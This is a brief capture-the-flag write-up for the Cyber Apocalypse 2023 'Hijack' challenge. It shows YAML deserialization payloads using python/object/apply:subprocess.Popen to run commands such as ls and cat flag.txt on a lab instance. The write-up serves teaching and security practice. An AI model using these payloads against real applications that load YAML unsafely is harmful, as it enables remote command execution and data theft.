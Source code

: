```yaml
---
layout: load_md
title: The White Circle | Cyber Apocalypse 2023 | Hijack Writeup
desc: "The White Circle is a community for Cyber/Information Security students, enthusiasts and professionals. You can discuss anything related to Security, share your knowledge with others, get help when you need it and proceed further in your journey with amazing people from all over the world."
image: images/twc_og_banner.jpg
ctf: Cyber Apocalypse 2023
parent: cyber_apocalypse_2023
category: misc
challenge: Hijack
tags: "misc, starry"
date: 2023-03-27T00:00:00+00:00
last_modified_at: 2023-03-27T00:00:00+00:00
---
```


<h1 class="heading card-title white-text">Cyber Apocalypse 2023</h1>

## Hijack
> Solved by Starry-Lord


![](https://i.imgur.com/c1ZeYkj.png)


Connect with nc to the docker instance, then create a config and decode the base 64. We can see it gives back YAML syntax so we can try to inject commands with subprocess.Popen:

After base64 encoding it, and using the “Load config” option, This worked!

    !!python/object/apply:subprocess.Popen
    - ls

I had to dig a little more to find how to give arguments to the command:


    !!python/object/apply:subprocess.Popen
    - !!python/tuple
      - ls
      - -la

  
And solved:

```
!!python/object/apply:subprocess.Popen
- !!python/tuple
  - cat
  - flag.txt
```

![](https://i.imgur.com/b0l46TJ.png)

